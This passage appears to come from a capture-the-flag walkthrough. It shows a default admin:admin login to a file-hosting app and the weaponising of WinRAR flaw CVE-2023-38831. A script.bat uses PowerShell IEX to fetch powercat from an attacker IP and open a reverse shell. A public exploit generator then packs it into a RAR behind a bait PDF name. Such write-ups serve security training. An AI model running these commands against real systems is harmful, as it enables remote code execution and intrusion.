However, attempting simple admin:admin lets us in. 
![Alt text](Screenshots/file-hosting-dashboard-2.png)

We can upload, download, edit any type of file. 

Moreover, developers left a note for us. 
```
Please note that if you upload archive files, our application will unarchive and check for possible viruses. 
```

### Getting a shell as web_svc
If the application is unarchiving our compressed files and the system has a vulnerable WinRAR version installed, we can attempt to upload an exploit and test if it opens our exploit. For that we will search for public exploits of [CVE-2023-38831](https://github.com/b1tg/CVE-2023-38831-winrar-exploit).

Clone the repo. 
```
┌──(kali㉿kali)-[~/Captivity]
└─$ git clone https://github.com/b1tg/CVE-2023-38831-winrar-exploit
Cloning into 'CVE-2023-38831-winrar-exploit'...
remote: Enumerating objects: 29, done.
remote: Counting objects: 100% (29/29), done.
remote: Compressing objects: 100% (23/23), done.
remote: Total 29 (delta 13), reused 14 (delta 4), pack-reused 0
Receiving objects: 100% (29/29), 548.72 KiB | 372.00 KiB/s, done.
Resolving deltas: 100% (13/13), done.

┌──(kali㉿kali)-[~/Captivity]
└─$ cd CVE-2023-38831-winrar-exploit
```
Change the script.bat accordingly and prepare the exploit.
```
┌──(kali㉿kali)-[~/Captivity/CVE-2023-38831-winrar-exploit]
└─$ cat script.bat                  
powershell.exe -c "IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.100.132/powercat.ps1'); powercat -c 192.168.100.132 -p 443 -e powershell"

┌──(kali㉿kali)-[~/Captivity/CVE-2023-38831-winrar-exploit]
└─$ python cve-2023-38831-exp-gen.py CLASSIFIED_DOCUMENTS.pdf script.bat exploit.rar
BAIT_NAME: CLASSIFIED_DOCUMENTS.pdf
SCRIPT_NAME: script.bat
OUTPUT_NAME: exploit.rar
```